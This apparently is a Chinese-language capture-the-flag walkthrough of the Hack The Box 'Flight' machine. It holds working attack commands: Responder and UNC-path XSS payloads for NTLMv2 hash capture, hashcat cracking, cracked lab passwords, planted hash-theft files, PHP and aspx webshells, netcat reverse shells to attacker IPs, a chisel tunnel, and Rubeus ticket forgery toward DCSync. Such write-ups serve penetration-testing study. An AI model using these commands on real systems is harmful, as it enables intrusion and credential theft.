

# 信息收集

## nmap


## 80端口

### flight.htb


### fuzz


ldap,smb,rpc均无有用内容

# 任意文件读取

school.flight.htb


并且可以访问web服务，但使用的是include函数，读取后格式为txt，不能转变为php代码



# NTLMv2攻击

[通过 NTLMv2 获取凭据 | 0xdf 破解事物 --- Getting Creds via NTLMv2 | 0xdf hacks stuff](./https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html)具体攻击原理及手段可以参考这篇文章，这里做简单总结

## NTLMv2工作原理


> 1.客户端发送一个认证请求，其中包含有关连接的参数。
>
> 2.服务器返回一个 nonce，一个随机生成的 16 字节，不应重复使用。
>
> 3.客户端使用密码加密该 nonce，并将其发送回去。
>
> 4.在非域认证的情况下，服务器知道密码，因此可以解密响应，并检查是否与原始 nonce 匹配。如果匹配，则授予访问权限。
>
> 在域环境中，唯一的不同之处在于服务器会将用户名、nonce 和加密的 nonce 转发到域控制器，在那里域控制器可以使用用户的哈希值来加密 nonce，并检查它是否与用户提供的 nonce 匹配。

## 攻击手段

### 链路本地多播名称解析（LLMNR）

访问错误地址时，就会发送多播请求，此时如果正在监听就能监听到这个请求中的NTLM然后进行破解

```
responder -I eth0
```

## 主动访问我的SMB

让对方主动访问我的SMB时，也可以捕获到NTLMv2

可以搭配xss，任意文件读取漏洞

```
<script language='javascript' src="\\10.10.14.15\share"></script>
```

## 破解

```
hashcat -m 5600 password /usr/share/wordlists/rockyou.txt -a0
```

## 攻击靶机

本地监听`openvpn`连接的网卡，利用上面文件读取漏洞去访问攻击机的smb服务，然后截取到NTLMv2


```
hashcat指定类型来破解
hashcat -m 5600 password /usr/share/wordlists/rockyou.txt -a0
```


```
SVC_APACHE:S@Ss!K@*t13
```

# smbclient


# lookupsid.py-用户名枚举


```
crackmapexec smb 10.10.11.187 -u users -p 'S@Ss!K@*t13' 
```


```
flight.htb\S.Moon:S@Ss!K@*t13
```

# NTLMv2攻击

S.Moon有Shared写入权限


[Greenwolf/ntlm_theft: A tool for generating multiple types of NTLMv2 hash theft files by Jacob Wilkin (Greenwolf)](./https://github.com/Greenwolf/ntlm_theft)生成哈希窃取钓鱼文件，别人访问时会将hash进行反弹，将这些文件写入Shared


等待一会就会接受到别人访问钓鱼文件之后反弹的hash值


```
C.BUM:Tikkycoll_431012284
```

该用户对Web目录可写


将poc.php上传到Web文件夹下


再上传nc64.exe

命令执行反弹shell

```
http://school.flight.htb/styles/poc.php?cmd=nc64.exe%20-e%20cmd.exe%2010.10.16.3%20443
```

# getshell

## flight\svc_apache


## RunasCs.exe--flight\C,Bum 

可以用该工具横向到其他用户


```
./run.exe C.Bum Tikkycoll_431012284 -r 10.10.16.4:445 cmd
```


# 端口转发

chisel

```
反向代理，将8000转发到9999
./chisel_1.10.1_linux_amd64 server -p 8888 --reverse

./chisel.exe client 10.10.16.4:8888 R:9999:127.0.0.1:8000
```


在C盘根目录下有一个inetpub文件夹，该文件夹不是系统文件名，依次查看其中内容以后发现8000端口的源码是在该文件夹下的development下，并且查看development文件夹的权限，C.Bum用户有完全控制权限，则可以往该目录中写入木马


这里有个奇怪的点是过段时间在development目录下又会生成一个development目录，访问子目录才是正确的，上传aspx的webshell，网上找到的webshell

[webshell/fuzzdb-webshell/asp/cmd.aspx at master · tennc/webshell](./https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)


wget http://10.10.16.4:8001/nc64.exe -outfile nc64.exe

wget http://10.10.16.4:8000/cmd.aspx -outfile cmd.aspx


```
/c C:\inetpub\development\development\nc64.exe -e cmd 10.10.16.4 446
```


# 提权

使用Rubeus伪造票据


将票据解码后导入到攻击机，然后进行Dcsync攻击

```
base64 -d machine.kirbi.b64 > machine.kirbi

python3 /home/kali/windows-tools/impacket-0.12.0/examples/ticketConverter.py machine.kirbi machine.ccache

export KRB5CCNAME=/home/kali/Hackthebox/Flight/machine.ccache

```


需要先禁用网络时间协议自动更新，然后再同步时间

```
timedatectl set-ntp off
sudo ntpdate -s 10.10.11.187
```


